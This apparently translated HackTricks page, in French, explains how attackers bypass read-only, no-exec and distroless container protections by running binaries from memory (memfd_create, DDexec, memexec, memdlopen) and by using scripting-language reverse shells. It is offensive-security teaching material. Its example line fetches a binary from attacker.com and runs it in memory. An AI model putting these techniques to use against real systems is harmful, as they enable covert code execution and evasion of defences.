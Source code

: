 # Contourner les protections FS : lecture seule / pas d'exécution / Distroless

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si vous êtes intéressé par une **carrière en piratage** et pirater l'impossible - **nous recrutons !** (_maîtrise du polonais écrit et parlé requis_).

{% embed url="https://www.stmcyber.com/careers" %}

## Vidéos

Dans les vidéos suivantes, vous trouverez les techniques mentionnées sur cette page expliquées plus en détail :

* [**DEF CON 31 - Exploration de la manipulation de la mémoire Linux pour la furtivité et l'évasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Intrusions furtives avec DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Scénario lecture seule / pas d'exécution

Il est de plus en plus courant de trouver des machines Linux montées avec une protection de système de fichiers en **lecture seule (ro)**, notamment dans les conteneurs. Cela est dû au fait qu'il est facile d'exécuter un conteneur avec un système de fichiers en ro en définissant simplement **`readOnlyRootFilesystem: true`** dans le `securitycontext` :

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Cependant, même si le système de fichiers est monté en ro, **`/dev/shm`** restera inscriptible, donc en réalité, nous pouvons écrire sur le disque. Cependant, ce dossier sera **monté avec une protection no-exec**, donc si vous téléchargez un binaire ici, vous **ne pourrez pas l'exécuter**.

{% hint style="warning" %}
D'un point de vue d'équipe rouge, cela rend **compliqué le téléchargement et l'exécution** de binaires qui ne sont pas déjà présents dans le système (comme des portes dérobées ou des outils d'énumération comme `kubectl`).
{% endhint %}

## Contournement le plus simple : Scripts

Notez que j'ai mentionné les binaires, vous pouvez **exécuter n'importe quel script** tant que l'interpréteur est présent dans la machine, comme un **script shell** si `sh` est présent ou un **script Python** si `python` est installé.

Cependant, cela ne suffit pas pour exécuter votre porte dérobée binaire ou d'autres outils binaires dont vous pourriez avoir besoin d'exécuter.

## Contournements de la mémoire

Si vous souhaitez exécuter un binaire mais que le système de fichiers ne le permet pas, la meilleure façon de le faire est en l'exécutant depuis la mémoire, car les **protections ne s'appliquent pas là**.

### Contournement de l'appel système FD + exec

Si vous disposez de moteurs de script puissants dans la machine, tels que **Python**, **Perl** ou **Ruby**, vous pourriez télécharger le binaire à exécuter depuis la mémoire, le stocker dans un descripteur de fichier en mémoire (`create_memfd` syscall), qui ne sera pas protégé par ces protections, puis appeler un **appel système `exec`** en indiquant le **fd comme fichier à exécuter**.

Pour cela, vous pouvez facilement utiliser le projet [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Vous pouvez lui passer un binaire et il générera un script dans le langage indiqué avec le **binaire compressé et encodé en b64** avec les instructions pour **le décoder et le décompresser** dans un **fd** créé en appelant la syscall `create_memfd` et un appel à l'appel système **exec** pour l'exécuter.

{% hint style="warning" %}
Cela ne fonctionne pas dans d'autres langages de script comme PHP ou Node car ils n'ont pas de **moyen par défaut d'appeler des appels système bruts** à partir d'un script, il n'est donc pas possible d'appeler `create_memfd` pour créer le **fd en mémoire** pour stocker le binaire.

De plus, la création d'un **fd régulier** avec un fichier dans `/dev/shm` ne fonctionnera pas, car vous ne serez pas autorisé à l'exécuter en raison de la **protection no-exec** qui s'appliquera.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) est une technique qui vous permet de **modifier la mémoire de votre propre processus** en écrivant dans son **`/proc/self/mem`**.

Par conséquent, en **contrôlant le code assembleur** qui est exécuté par le processus, vous pouvez écrire un **shellcode** et "muter" le processus pour **exécuter n'importe quel code arbitraire**.

{% hint style="success" %}
**DDexec / EverythingExec** vous permettra de charger et d'**exécuter** votre propre **shellcode** ou **n'importe quel binaire** depuis la **mémoire**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Pour plus d'informations sur cette technique, consultez le Github ou :

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) est la prochaine étape naturelle de DDexec. C'est un **démon de shellcode DDexec**, donc chaque fois que vous voulez **exécuter un binaire différent**, vous n'avez pas besoin de relancer DDexec, vous pouvez simplement exécuter le shellcode memexec via la technique DDexec et ensuite **communiquer avec ce démon pour transmettre de nouveaux binaires à charger et exécuter**.

Vous pouvez trouver un exemple de l'utilisation de **memexec pour exécuter des binaires à partir d'un shell PHP inversé** dans [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Avec un objectif similaire à DDexec, la technique [**memdlopen**](https://github.com/arget13/memdlopen) permet un **moyen plus facile de charger des binaires** en mémoire pour les exécuter ultérieurement. Cela pourrait même permettre de charger des binaires avec des dépendances.

## Contournement de Distroless

### Qu'est-ce que Distroless

Les conteneurs Distroless contiennent uniquement les **composants strictement nécessaires pour exécuter une application ou un service spécifique**, tels que des bibliothèques et des dépendances d'exécution, mais excluent des composants plus importants comme un gestionnaire de paquets, un shell ou des utilitaires système.

L'objectif des conteneurs Distroless est de **réduire la surface d'attaque des conteneurs en éliminant les composants inutiles** et en minimisant le nombre de vulnérabilités exploitables.

### Shell Inversé

Dans un conteneur Distroless, vous pourriez **ne pas trouver même `sh` ou `bash`** pour obtenir un shell classique. Vous ne trouverez pas non plus des binaires tels que `ls`, `whoami`, `id`... tout ce que vous exécutez habituellement dans un système.

{% hint style="warning" %}
Par conséquent, vous **ne pourrez pas** obtenir un **shell inversé** ou **énumérer** le système comme vous le faites habituellement.
{% endhint %}

Cependant, si le conteneur compromis exécute par exemple une application web Flask, alors Python est installé, et donc vous pouvez obtenir un **shell Python inversé**. S'il exécute Node, vous pouvez obtenir un shell Node, et de même avec la plupart des **langages de script**.

{% hint style="success" %}
En utilisant le langage de script, vous pourriez **énumérer le système** en utilisant les capacités du langage.
{% endhint %}

S'il n'y a **pas de protections `lecture seule/sans exécution`**, vous pourriez abuser de votre shell inversé pour **écrire dans le système de fichiers vos binaires** et les **exécuter**.

{% hint style="success" %}
Cependant, dans ce type de conteneurs, ces protections existent généralement, mais vous pourriez utiliser les **techniques d'exécution en mémoire précédentes pour les contourner**.
{% endhint %}

Vous pouvez trouver des **exemples** sur la façon d'**exploiter certaines vulnérabilités RCE** pour obtenir des **shells inversés de langages de script** et exécuter des binaires en mémoire dans [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si vous êtes intéressé par une **carrière en piratage** et pirater l'impossible - **nous recrutons !** (_polonais écrit et parlé couramment requis_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez** 💬 le groupe Discord](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
